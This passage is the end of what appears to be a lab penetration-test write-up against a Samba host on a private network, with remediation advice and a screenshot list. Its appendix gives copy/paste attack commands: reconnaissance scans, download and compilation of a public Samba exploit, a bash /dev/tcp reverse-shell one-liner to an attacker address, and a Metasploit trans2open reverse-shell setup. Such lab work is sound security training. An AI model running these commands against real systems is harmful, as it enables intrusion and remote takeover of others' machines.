 ### Remediation recommendations
- **Patch and upgrade** Samba to a supported version and disable SMBv1.  
- Apply security updates for Apache and OpenSSH.  
- Use network segmentation and firewall rules to restrict SMB ports (139/445).  
- Monitor and log for suspicious remote code execution and network activity.  
- Run regular vulnerability scans and apply patch management processes.

---

## 9. Screenshots
Place these images in a `/screenshots/` directory inside your repository. Example usage:

```markdown
![Nmap results](screenshots/3.jpeg)
```

Files (as used in this repo):
1. `screenshots/1.jpeg` — Host discovery / netdiscover  
2. `screenshots/2.jpeg` — ARP / unique hosts capture  
3. `screenshots/3.jpeg` — Nmap output (service detection)  
4. `screenshots/4.jpeg` — DirBuster results (web enumeration)  
5. `screenshots/5.jpeg` — Download & compile exploit (wget, gcc)  
6. `screenshots/6.jpeg` — Exploit success: root shell (`whoami` / `id`)  
7. `screenshots/7.jpeg` — Metasploit sessions (optional verification)  
8. `screenshots/8.jpeg` — Sudoers/persistence example  
9. `screenshots/1.5.jpeg` — Optional header/banner image

---

## Appendix — Commands (copy/paste)
```bash
# Discovery
sudo netdiscover -r 192.168.1.0/24

# Nmap service/version detection
nmap -sS -A 192.168.1.106

# SMB enumeration
enum4linux -a 192.168.1.106

# Web enumeration (dirb/DirBuster)
dirbuster -u http://192.168.1.106 -w /usr/share/wordlists/dirb/common.txt

# Download & compile exploit (example from Exploit-DB)
wget https://www.exploit-db.com/download/10 -O samba-exploit.c
gcc samba-exploit.c -o exploit
./exploit -b 192.168.1.106

# Reverse shell listener on attacker
nc -nlvp 4444

# Reverse shell one-liner on victim
bash -i >& /dev/tcp/192.168.1.105/4444 0>&1

# Metasploit (optional)
msfconsole
use exploit/linux/samba/trans2open
set RHOSTS 192.168.1.106
set LHOST 192.168.1.105
set payload linux/x86/shell_reverse_tcp
exploit
```

---